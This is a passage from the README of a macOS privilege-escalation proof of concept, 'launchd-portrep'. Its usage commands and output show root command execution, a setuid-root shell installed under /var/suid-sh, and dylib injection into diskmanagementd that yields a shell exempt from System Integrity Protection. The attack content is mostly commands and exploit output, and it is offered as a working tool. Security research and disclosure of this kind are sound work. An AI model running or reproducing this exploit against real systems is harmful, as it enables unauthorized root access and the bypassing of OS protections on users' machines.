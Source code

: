 Note that the exploit as written will fail if the sysdiagnose process is already running. Thus, for
the purposes of this proof of concept, be sure to kill sysdiagnose before running the exploit. (It
is possible to rework the exploit so that it still works if sysdiagnose is already running, but I
have decided not to incorporate this functionality in order to dissuade the use of this tool for
malicious purposes.)

Run the exploit by specifying the command to run as if it were being given to the `system()`
function:

	$ ./launchd-portrep 'touch /tmp/exploit-success'
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0xd77 (index 196) after 28 tries
	[+] Sysdiagnose has PID 499
	[+] Found sysdiagnose task port 0x1767b
	[+] Command exited with status: 0
	$ ls -la /tmp/exploit-success
	-rw-r--r--  1 root  wheel  0 Jul 24 23:50 /tmp/exploit-success

Alternatively, if you specify a PID and an absolute path to a dynamic library file,
`launchd-portrep` will inject the dylib into the specified process.

There are also two example scripts that wrap `launchd-portrep`: `launchd-portrep-rootsh.sh` and
`launchd-portrep-rootless.sh`.

`launchd-portrep-rootsh.sh` will present a traditional root shell by installing a setuid-root shell
launcher under `/var/suid-sh`. (The setuid shell is automatically removed after 1 second.)

	$ bash ./launchd-portrep-rootsh.sh
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0x153b (index 192) after 60 tries
	[+] Sysdiagnose has PID 1231
	[+] Found sysdiagnose task port 0x1df7b
	[+] Command exited with status: 0
	Launching /private/var/suid-sh
	bash-3.2#

`launchd-portrep-rootless.sh` is even more interesting: it presents a shell where rootless
restrictions on the filesystem have been disabled. It does this by spawning diskmanagementd, which
has the `com.apple.rootless.install.heritable` entitlement, and then injecting a dylib into
diskmanagementd that causes it to spawn a shell with stdin and stdout bound to named pipes. As the
name of the entitlement suggests, the exemptions from SIP granted by
`com.apple.rootless.install.heritable` will be passed down to the child processes, meaning that the
shell and all commands you run in it are essentially exempt from the SIP filesystem protections.

	$ bash ./launchd-portrep-rootless.sh
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0xe7b (index 194) after 60 tries
	[+] Sysdiagnose has PID 1145
	[+] Found sysdiagnose task port 0x1747b
	[+] Command exited with status: 0
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0x13d7b (index 199) after 61 tries
	[+] Sysdiagnose has PID 1162
	[+] Found sysdiagnose task port 0xbe47
	[+] Got task port 0xa07 for PID 1153
	[+] Successfully loaded "/Users/bazad/Developer/GitHub/launchd-portrep/rootless-sh.dylib" in process 1153
	bash: no job control in this shell
	bash-3.2# csrutil status
	System Integrity Protection status: enabled.
	bash-3.2# ls -laO /System
	total 0
	drwxr-xr-x@   4 root  wheel  restricted  128 Jul 25 19:08 .

[CVE-2016-7637]: https://bugs.chromium.org/p/project-zero/issues/detail?id=959
[threadexec]: https://github.com/bazad/threadexec